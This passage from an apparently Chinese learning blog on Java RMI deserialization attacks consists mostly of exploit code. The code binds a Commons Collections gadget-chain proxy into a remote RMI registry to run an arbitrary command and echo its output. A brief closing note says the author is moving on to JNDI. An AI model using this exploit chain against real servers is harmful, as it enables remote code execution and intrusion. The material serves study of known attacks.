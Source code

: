 ```
                            new Object[] { "ErrorBaseExec" }),
                    new InvokerTransformer("getMethod",
                            new Class[] { String.class, Class[].class },
                            new Object[] { "do_exec", new Class[] { String.class } }),
                    new InvokerTransformer("invoke",
                            new Class[] { Object.class, Object[].class },
                            new Object[] { null, new String[] { command } })
            };
            Transformer transformedChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "value");
 
            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformedChain);
            Class cl = Class.forName(
                    "sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
 
            Object instance = ctor.newInstance(Target.class, outerMap);
            Registry registry = LocateRegistry.getRegistry(ip, port);
            InvocationHandler h = (InvocationHandler) getFirstCtor(ANN_INV_HANDLER_CLASS)
                    .newInstance(Target.class,
                            outerMap);
            Remote r = Remote.class.cast(Proxy.newProxyInstance(
                    Remote.class.getClassLoader(),
                    new Class[] { Remote.class }, h));
            registry.bind("liming", r);
        } catch (Exception e) {
            try {
                System.out.print(e.getCause().getCause().getCause().getMessage());
            } catch (Exception ee) {
                throw e;
            }
        }
    }
}
```

![img](https://drun1baby.top/2022/07/23/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BRMI%E4%B8%93%E9%A2%9802-RMI%E7%9A%84%E5%87%A0%E7%A7%8D%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F/URLClassLoader.png)

## 0x03 小结

感觉在这块将要淘汰的东西上浪费太久的时间了。醉了

继续往前。学 jndi